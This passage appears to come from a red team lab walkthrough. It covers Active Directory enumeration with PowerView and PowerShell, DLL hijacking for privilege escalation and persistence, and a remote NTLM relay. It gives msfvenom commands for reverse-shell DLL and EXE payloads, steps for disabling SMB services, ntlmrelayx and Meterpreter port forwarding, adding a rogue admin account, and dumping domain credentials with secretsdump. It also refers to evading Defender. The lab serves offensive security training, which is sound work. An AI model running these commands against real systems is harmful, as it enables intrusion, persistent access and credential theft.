- `Get-NetLocalGroupMember`
- `Get-NetLoggedon`
- `Get-DomainGPO`
- `Find-LocalAdminAccess`

For a complete list of commands, check out the GitHub readme, https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon#powerview

------

The first PowerView command we will be looking at is `Get-NetLocalGroup`; this command will enumerate/list all groups present on a local  machine/computer. Find the syntax and output for the command below.


Syntax: `Get-NetLocalGroup`


The second PowerView command we will be looking at is `Get-NetLocalGroupMember`; this command will enumerate/list all members of a local group such as  users, computers, or service accounts. Find the syntax and output for  the command below.


Syntax: `Get-NetLocalGroupMember -Group <group>`


The third PowerView command we will be looking at is `Get-NetLoggedon`; this command will enumerate/list all users currently logged onto the  local machine/computer. This can be useful to identify what user's not  to take over or what users to target in phishing or other attacks  depending on your team's methodology and/or goals. Find the syntax and  output for the command below.


Syntax: `Get-NetLoggedon`


The fourth PowerView command we will be looking at is `Get-DomainGPO`; this command will enumerate/list the active directory domain GPOs  installed on the local machine. This can be useful in identifying  utilities like AppLocker or other remote services running on the  machine/computer. Find the syntax and output for the command below.


Syntax: `Get-DomainGPO`


The final PowerView command we will be looking at is `Find-LocalAdminAccess`; this command will check all hosts connected to the domain a  machine/computer is a part of and check if the current user or listed  user is a local administrator. This can be helpful when targeting a  specific user and attempting to move across the domain laterally. This  can be used as an alternative to other tools like CME for passing the  hash. Find the syntax and output for the command below.


Syntax: `Find-LocalAdminAccess`


For a complete list of commands and cheat-sheets, check out the following resources,

- https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993
- https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon#powerview
- https://github.com/HarmJ0y/CheatSheets/blob/master/PowerView.pdf

To run PowerView in Covenant, we can utilize `PowerShellImport` mentioned in Task 25.

As with most offensive tooling, Defender detects this script. You will  need to follow the methodology given in Task 31-36 to execute this tool  and evade detections.

# Situational Awareness Import-Module PowerUpGreySkull.ps1

In some instances, depending on detections and restrictions within  the endpoint, you may not run tools like Seatbelt and PowerView. In this case, we can utilize offensive PowerShell commands to perform  situational awareness. In addition, Powershell natively supports several modules and commands that we can use to gain situational awareness and  enumerate the system/environment.

We will only be covering a  small surface of what PowerShell is capable of. Look below for an  outline of commands and modules we will cover in this task.

- `Get-ScheduledTask`
- `Get-ScheduledTaskInfo`
- `whoami /priv`
- `Get-ADGroup`
- `Get-ADGroupMember`
- `Get-ADPrincipalGroupMembership`

You will notice that most of the modules are focused on active  directory structure; this is because the active directory  plug-in/modules give us a large amount of control designed for system  administrators. The first two commands we will be looking at are aimed  towards identifying misconfigurations we can abuse for privilege  escalation.

------

The first PowerShell command we will be looking at is `Get-ScheduledTask`; as the command says it will list/enumerate all the scheduled tasks  present on the system. To list all tasks, there are no parameters needed to pass to the command. Find syntax for the command below.


Syntax: `Get-ScheduledTask`


You will notice that there is a large number of tasks present; this is  because Windows operates at startup with a large number of tasks default on every Windows install. We can use filters and parameters to  eliminate some of the unneeded tasks to focus on obscure tasks that we  can abuse. Find syntax for filtering below.


Syntax: `Get-ScheduledTask -TaskPath "\Users\*"`


You can experiment with parameters and inputs to get the most optimal output for system enumeration.

For more information about `Get-ScheduledTask`, check out the Microsoft docs, https://docs.microsoft.com/en-us/powershell/module/scheduledtasks/get-scheduledtask

The second PowerShell command we will be looking at is `Get-ScheduledTaskInfo`; similar to Get-ScheduledTask, this command will list specific  information on specified Tasks allowing the attacker to identify the  task and how it could be exploited. Find syntax for the command below.


Syntax: `Get-ScheduledTaskInfo -TaskName <Full Path>`


For more information about Get-ScheduledTaskInfo, check out the Microsoft docs, https://docs.microsoft.com/en-us/powershell/module/scheduledtasks/get-scheduledtaskinfo

The third command, `whomai /priv`; isn't specific to PowerShell, but can help us with privilege escalation enumeration, as there are many exploits available with misconfigured  privileges. The `/priv` parameter will enumerate the *SE privileges* of the current user. Find the command used and output below.

Command: `whoami /priv`


For more information on how to exploit these privileges, check out these slides,

------

The fourth PowerShell command we will be looking at is `Get-ADGroup`; this module, part of the active directory module package, will allow us to enumerate a user's groups or all groups within the domain. To get  the most out of this command, we will already need to enumerate the  users present on the machine. Since this command is part of the  ActiveDirectory module, you will need first to import the module. Find  the syntax for the command below.

Syntax: `Import-Module ActiveDirectory; Get-ADGroup`

After running the command, you will be prompted with a CLI to apply filters to the command; we recommend filtering by the `samAccountName`. Find example usage for this filter below.


Syntax: `samAccountName -like "*"`


To get the most out of this command, you will need to play with the  filters and parameters used to get the most efficient output to  enumerate the critical information.

For more information about `Get-ADGroup`, check out the Microsoft docs, https://docs.microsoft.com/en-us/powershell/module/addsadministration/get-adgroup

The fifth PowerShell command we will be looking at is `Get-ADGroupMember`; similar to `Get-ADGroup`, this command will list the members of an active directory group. Once  you have enumerated groups present on the domain, this command can be  helpful to identify specific users that you can target, whether it be  for privilege escalation or lateral movement. Since this command is part of the *ActiveDirectory* module, you will need first to import the module. Find the syntax for the command below.

Syntax: `Import-Module ActiveDirectory; Get-ADGroupMember`


After running the command, you will be prompted with a CLI to  specify the group(s) you want to enumerate. As previously stated, you  can get the groups from the previous enumeration with `Get-ADGroup`.


For more information about Get-ADGroupMember, check out the Microsoft docs, https://docs.microsoft.com/en-us/powershell/module/addsadministration/get-adgroupmember

The final PowerShell command we will be looking at is `Get-ADPrincipalGroupMembership`, similar to `Get-ADGroupMember`, this command will retrieve the groups a user, computer group, or  service account is a member of. In order to get the most out of this  command we will need to already have some targeted users enumerated  using other commands like `Get-ADUser`. Since this command is part of the `ActiveDirectory` module you will need to first import the module. Find the syntax for the command below.

The final PowerShell command we will be looking at is `Get-ADPrincipalGroupMembership`; similar to `Get-ADGroupMember`; this command will retrieve the groups a user, computer group, or  service account is a member. To get the most out of this command, we  will need to have enumerated target users using other commands like `Get-ADUser`. Since this command is part of the *ActiveDirectory* module, you will need first to import the module. Find the syntax for the command below.

Syntax: `Import-Module ActiveDirectory; Get-ADPrincipalGroupMembership`


After running the command, you will be prompted with a CLI to specify the user(s) you want to enumerate.


When using PowerShell for offensive operations, you will need to play around with the commands and modules to see what works for you and develop  your methodology similar to working with other tools.

# Privilege Escalation WERE TAKING OVER THIS DLL!                            

Now that we have performed all the enumeration and situational  awareness, we can move on to privilege escalation. Looking through our  enumeration steps, you may notice a unique application connected to a  scheduled task on the endpoint. We can attempt a DLL hijack on this application to escalate privileges, then set up persistence on the endpoint.

From the MITRE ATT&CK framework, DLL Hijacking is defined as "Adversaries may  execute their own malicious payloads by hijacking the search order used  to load DLLs. Windows systems use a common method to look for required  DLLs to load into a program. [[1\]](https://docs.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-search-order?redirectedfrom=MSDN) Hijacking DLL loads may be for the purpose of establishing persistence as well as  elevating privileges and/or evading restrictions on file execution." The AT&CK Technique ID is [T1574](https://attack.mitre.org/techniques/T1574/).

To utilize DLL Hijacking for privilege escalation, we will need to research the  application and known vulnerabilities and DLLs and find a DLL not  present on the system we have write access to.

DLL Hijacking can also be used for persistence, as we will see later in the next task. This process is much easier than the previous one as we can  use process monitoring tools like ProcMon and ProcessHacker2 to monitor  for DLLs and their locations that can take over. The DLL persistence  works by running the DLL with the application every time the system  restarts or our connection is interrupted. This can be an application we put onto the system or an application already present that we exploit.

Steps taken to perform DLL hijacking are outlined below.

1. Identify vulnerable application and location
2. Identify applications PID
3. Identify vulnerable DLLs that can be hijacked
4. Use MSFVenom or other payload creation tools to create a malicious DLL
5. Replace the original DLL with the malicious DLL
6. Profit

To begin escalating privileges with DLL Hijacking, we need to identify an application and scheduled task that  we can target; this is covered in the previous two tasks. Once we have  identified our target, we can use the power of Google to search for  potential vulnerable DLLs associated with the application as we can not  use tools like ProcMon to make the process easier.

By googling, ` DLL Hijacking`, we can see several articles and blog posts that can lead us in the right direction and research the application for us.

If there is not any research on the application available, say a proprietary application. You can attempt to download the application  from the server or find an identical copy on the internet for download  that will allow you to search for vulnerable DLLs on your local machine. If you decide to take this approach, skip to the next task and complete the steps with ProcMon before returning to this  task and exploiting the vulnerable DLL.

------

Once you have identified a DLL to target, you can decide to create a malicious DLL in Metasploit or  Covenant or even create one from scratch. Depending on the endpoint you  land on, and detection/anti-virus measures in place will determine how  you approach creating a malicious DLL.

The first method we will be looking at is using MSFVenom to generate a Metasploit DLL. Find the command used below.

Command used: `sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=53 -f dll -o not_malicious.dll`

The second method we will be looking at will use the Covenant InstallUtil launcher to generate a DLL that we can download. To generate the DLL navigate to *Launchers > InstallUtil > Download*.


For both of the methods used, you will now need to rename the malicious DLL then transfer it to the target machine in the correct path. You can do  this by using the python HTTP server, Updog, or the Covenant Host  function.


Finally, execute the vulnerable application or wait for the  scheduled task to trigger and watch your listener for incoming  connections.

# Persistence WERE TAKING OVER THIS DLL! Part: II                            

Now that we have administrator privileges or moved the  application onto our local development machine, we can search for other  vulnerable DLL locations using ProcMon or Processhacker2. We can identify vulnerable  DLLs by finding the process and PID of the application we are targeting  then use filters or modules to search for the DLLs that meet specific  requirements to be vulnerable. To be vulnerable, a DLL must meet the  below requirements.

- Defined by the target application
- Ends with .DLL
- Must be run by the target application
- DLL does not exist on the system
- Write privileges for DLL location


In this task, we will be focusing on identifying DLLs with ProcMon, part of the Sysinternals suite https://docs.microsoft.com/en-us/sysinternals/downloads/procmon.


To begin, we will need to open ProcMon as an Administrator. ProcMon  will start with an extensive list of all DLLs and processes from all  PIDs running on the system. To aid us, we can apply filters to this  output to identify information.


To open the filters, navigate to *filter > Filter.*


You will want to filter based on the process name so change the filter to be: `Process Name, Contains, Name of Vulnerable Application`, then navigate to add and add the filter to ProcMon.


If you look at the process list, there will only be processes from the vulnerable application.


Now that we have refined the search down to the application, we can filter it again to only show .DLL files.


You will filter on the pathname so change the filter to be: `Path, ends with, .dll`, then navigate to add and add the filter to ProcMon.


Now that we have refined our search again, we can look through the output of DLLs run by the vulnerable application.


When looking for a DLL to target, we want to look for a DLL in a path that we can write. We  also want to ensure the DLL does not exist on the system in its current  state; this will show up as `NAME NOT FOUND`. This  means the application attempts to load it but cannot because it does not exist on the system. We can then hijack and use it to run our malicious code.

Since we're looking for files with paths that we can  access, we may want to filter again to something like Desktop,  Downloads, Documents. This will allow us to refine our search further  for DLLs that we can write. The preferred way to filter again would be  to filter the result based on `NAME NOT FOUND`.


You will filter on the result so change the filter to be: Result, contains, `NAME NOT FOUND`, then navigate to add and add the filter to ProcMon.


If we look at the list of processes in ProcMon, we will see a list of DLLs that can be exploited.


We can now control the DLLs using our previously created malicious DLLs  and set up quiet persistence on the device by working off applications  and processes already running.

# NTLM Relay Never trust the LanMan                            

You now have administrator access to PC-FILESRV01; you know that you  are in a domain content. Your research team has developed a brand new  never-seen exploit to relay requests and dump domain credentials. We  will cover this new exploit in the following four tasks and weaponize it to gain domain administrator access and own the domain with a relay.

To begin this attack, we will identify what NTLM is and how it is integrated into Windows.

Net-NTLMv1 is a challenge/response protocol that uses NTHash. This  version will use both NT and LM hashes. You can find the algorithm used  to hash below.

```
C = 8-byte server challenge, random K1 | K2 | K3 = LM/NT-hash | 5-bytes-0 response = DES(K1,C) | DES(K2,C) | DES(K3,C)
```

Net-NTLMv2 is an updated version of Net-NTLMv1. This hash protocol  will use the same processes as v1 but will use a different algorithm and response. This version is the default since Windows 2000.

```
SC = 8-byte server challenge, random  CC = 8-byte client challenge, random CC* = (X, time, CC2, domain name)  v2-Hash = HMAC-MD5(NT-Hash, user name, domain name) LMv2 =  HMAC-MD5(v2-Hash, SC, CC) NTv2 = HMAC-MD5(v2-Hash, SC, CC*) response =  LMv2 | CC | NTv2 | CC*
```

------

Now that we understand what an NTLM hash is and how it is hashed, we  can look at how it responds and requests and why it can only be relayed  and not replayed.

The reason we can only relay hashes is that it uses a challenge-based request. A client will attempt to authenticate to a server; the server  will approve or deny initial authentication and move on to send a client a Challenge string to encrypt with the client's NTLM hash  (Challenge-Request). If the client can encrypt the string correctly, the client will be permitted to authenticate to the server; if not,  authentication will fail (Challenge-Response). We can break down the  technical process below.

1. (Interactive authentication only) A user accesses a client computer  and provides a domain name, user name, and password. The client computes a cryptographic *[hash](https://docs.microsoft.com/en-us/windows/win32/secgloss/h-gly)* of the password and discards the actual password.
2. The client sends the user name to the server (in *[plaintext](https://docs.microsoft.com/en-us/windows/win32/secgloss/p-gly)*).
3. The server generates a 16-byte random number, called a *challenge* or *[nonce](https://docs.microsoft.com/en-us/windows/win32/secgloss/n-gly)*, and sends it to the client.
4. The client encrypts this challenge with the hash of the user's  password and returns the result to the server. This is called the *response*.
5. The server sends the following three items to the domain controller:
   - User name
   - Challenge sent to the client.
   - Response received from the client.
6. The domain controller uses the user name to retrieve the hash of the user's password from the Security Account Manager database. It uses  this password hash to encrypt the challenge.
7. The domain controller compares the encrypted challenge it computed  (in step 6) to the response computed by the client (in step 4). If they  are identical, authentication is successful.

Source: https://docs.microsoft.com/en-us/windows/win32/secauthn/microsoft-ntlm?redirectedfrom=MSDN

Now that we understand Net-NTLMv1 and Net-NTLMv2 and how they can be used  for authentication, we can move on to exploiting Net-NTLM.

# NTLM Relay Now you see me, now you don't                            

If a server sends out SMB connections, you can use abuse NTLM  relaying to gain a foothold from these SMB connections. This is an  example of how NTLM relaying works and how a Net-NTLM session is  created. To exploit the network, we will need to adjust the attack from  our research.

To begin relaying hashes, we need first to understand how hashes would  generally be abused. We will demonstrate two tools that are usually  used: Responder, https://github.com/lgandx/Responder and NTLMRelayX, https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py

The first tool we will be looking at is Responder. From the  Responder GitHub, "Responder is a LLMNR, NBT-NS and MDNS poisoner, with  built-in HTTP/SMB/MSSQL/FTP/LDAP rogue authentication server supporting NTLMv1/NTLMv2/LMv2, Extended  Security NTLMSSP and Basic HTTP authentication." We can use Responder in our situation to poison LLMNR, Netbios, and DNS and then capture the  response from the server.

To begin poisoning requests, we will need to turn off SMB in the  Responder configuration as NTLMRelayX will be handling SMB. Find an  example command used below.

Command used: `sudo sed -i 's/SMB = On/SMB = Off/' /etc/responder/Responder.conf`

You can also manually edit the configuration file and turn off SMB.

Now that SMB is off, we can start responder poisoning across our network interface. Find syntax to start Responder below.

Syntax: `sudo python Responder.py -I <Interface>`

Responder is now poisoning requests across the network, and we can begin relaying them.

**Note:** It is not necessary to use Responder when attempting to Remotely  NTLMRelay. Responder should be used for poisoning a local network, not a remote network. Using Responder is **not** required to complete Holo.

------

The second tool we will be looking at is NTLMRelayX, part of the  Impacket suite. From the Impacket GitHub, "This module performs the SMB  Relay attacks originally discovered by cDc extended to many target  protocols (SMB, MSSQL, LDAP, etc). It receives a list of targets, and  for every connection received, it will choose the next target and try to relay the credentials. Also, if specified, it will first try to  authenticate against the client connecting to us."

We can use it against a specified protocol to relay inbound sessions. Find syntax for starting NTLMRelayX below.

Syntax: `ntlmrelayx.py -t ldap://<IP> -smb2support --escalate-user <user>`

This is an example of creating a Net-NTLM session. When a valid SMB  session is received, NTLMRelayX will act as a proxy and send a challenge to exploit the target system.

Now that we understand how an NTLM relay works and how a Net-NTLM session is created, we can move on to remote NTLM relaying.

# NTLM Relay Why not just turn it off?                            

As has been previously eluded to, we can use a newly researched attack to  exploit NTLM sessions. This attack works by forcing the server to stop  SMB traffic and restart the server to send all traffic to the attacker.  The attacker can then relay the session where they want. Credit to the  research behind this exploit goes to SpookySec, one of the creators of  Holo. Find the original blog post here, https://blog.spookysec.net/remote-ntlm-relaying/.

Remote NTLM relaying is not a widely discussed or popular attack vector, with  the only reference before this research being this blog, https://diablohorn.com/2018/08/25/remote-ntlm-relaying-through-meterpreter-on-windows-port-445/.

The reason this attack vector isn't widely used is that it is  very disruptive. If the server is busy, you are unintentionally creating an SMB DoS and creating server downtime. In a real engagement, this is a huge  problem. This attack can be used with explicit authorization from the  client and contributes to the ever-moving exploit and red team research. A white card may be used in place of this exploit in the real world, as mentioned in Task 8.

To begin crafting this exploit, we will need to install multiple  packages specific to non-standard Kerberos that the relay uses. Find the packages below.

- `krb5-user`
- `cifs-utils`

These can be installed using apt with the command below.

Command: `apt install krb5-user cifs-utils`

To begin configuring the server for the exploit, we will need to  start turning off SMB services and restart the server. Find an outline  of the steps taken below.

Begin by disabling NetLogon. Find the command used below.

Command used: `sc stop netlogon`

Next, we need to disable and stop the SMB server from starting at  boot. We can do this by disabling LanManServer and modifying the  configuration. Find the command used below.

Command used: `sc stop lanmanserver` and `sc config lanmanserver start= disabled`

To entirely stop SMB, we will also need to disable LanManServer and modify its configuration. Find the command used below.

Command used: `sc stop lanmanworkstation` and `sc config lanmanworkstation start= disabled`


The steps taken may seem very confusing and convoluted because Windows does not want to stop the SMB service completely.

We can now restart the machine; it is essential that you restart the  device and not shut down the device. Give the server a few minutes to  restart; scan the server again and ensure it returns as closed.

------

RDP back into the machine; stopping NetLogon can cause issues in some RDP clients, so it is recommended to use rdesktop.

At this point of the attack, we recommend using Metasploit as it offers  enhanced proxy functionality and traffic routing. Create a basic payload with Metasploit and execute it on the server. Find example usage below.

Example usage: `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=1337 -f exe > shell.exe`

Now that we have stopped the SMB service and can control how our traffic is routed, we can begin exploitation. First, we need to start NTLMRelayX,  specifying the domain controller and protocol to exploit, in this case,  SMB. Find syntax for NTLMRelayX below.

Syntax: `ntlmrelayx.py -t smb://<DC> -smb2support -socks`

We have now set up a relay client to route sessions through a SOCKs proxy.

We can now force the connection using Metasploit port forwarding. Find an example command below.

Example command: `portfwd add -R -L 0.0.0.0 -l 445 -p 445`


After waiting about 1-3 minutes, you should see a new inbound SMB connection. Now that we have the SOCKs tunnel open, we can use proxy  chains to use this session with several offensive tools, shown in the  next task.

At this point, we should have a successful relay, and we can move on to weaponizing the relay in the next task.


------


**Troubleshooting -**

**Problem:**

\- You are not receiving any inbound SMB connections from NTLMRelayX.

**Solution 1**

\- Ensure that you started running NTLMRelayX running **before** you created the Port Forward. If you did not, restart the machine.

**Solution 2**

\- Ensure that you ran NTLMRelayX with the -smb2support flag.

**Problem**

\- I am receiving inbound SMB Connections, but a session between the Domain Controller fails to establish.

**Solution 1**

\- Ensure that there is connectivity between your attacking device and the Domain Controller. You can test this with smbclient -L //<dcip>/. We recommend using SSHuttle over Chisel for this portion, as you would  need to juggle multiple ProxyChains config files with Chisel. SSHuttle  makes this process overall easier by automagically adjusting your  devices routing table.

**Solution 2**

\- Verify that this is not an issue with your NTLMRelayX version. We have a report from a user that their specific version of NTLMRelayX did not work. We have verified that **version 0.9.22** works without any issues.

# NTLM Relay Ready your weapons                            

We now have a working relay from S-SRV02. We can now weaponize this  relay to attempt to gain further access to the domain and dump  credentials on DC-SRV01 using the captured session.

To begin working with the session, we need to configure our proxy  settings to tunnel through the SOCKs session created by NTLMRelayX. Add  the following line to your proxychains configuration:

```
socks4 127.0.0.1 1080
```

First, we're going to be utilizing psexec, https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py. This is the first tool we'll use in the Remote NetNTLMRelay; this will allow us to execute one-off commands in a non-interactive shell on the target system. We can use this to add a new user account on the domain, and we can also grant them Local Administrator access on the Domain  Controller. This will allow us to move into the next section, enabling  us to dump all credentials on the domain. Alternatively, you could add  this user to the Domain Admins group and proceed without dumping  credentials.

Syntax to gain RCE: `proxychains psexec.py -no-pass HOLOLIVE/SRV-ADMIN@10.200.x.30`

Syntax to add a new user: `net user MyNewUser Password123! /add`

Syntax to add the user to the Local Admin group: `net localgroup Administrators /add MyNewUser`

**Note:** If you are experiencing issues with PSExec, try SMBExec.

The second tool we are looking at is secretsdump, https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py. This tool is also part of the Impacket suite and attempts to dump  domain hashes and other authentication information from a remote  attacker. From the secretsdump GitHub, "Performs various techniques to  dump hashes from the remote machine without executing any agent there.  For SAM and LSA Secrets (including cached creds) we try to read as much  as we can from the registry and then we save the hives in the target  system (%SYSTEMROOT%\\Temp dir) and read the rest of the data from  there."

We can automatically authenticate to secretsdump and dump machine  account credentials from the domain controller using our captured  session. Find syntax for secretsdump below.

Syntax: `secretsdump.py 'HOLOLIVE/MyNewUser:Password123!@10.200.x.30'`

We should have dumped credentials for the entire domain, and we  essentially own the domain at this point. We can now move on to  exfiltration and clean up our target and goal.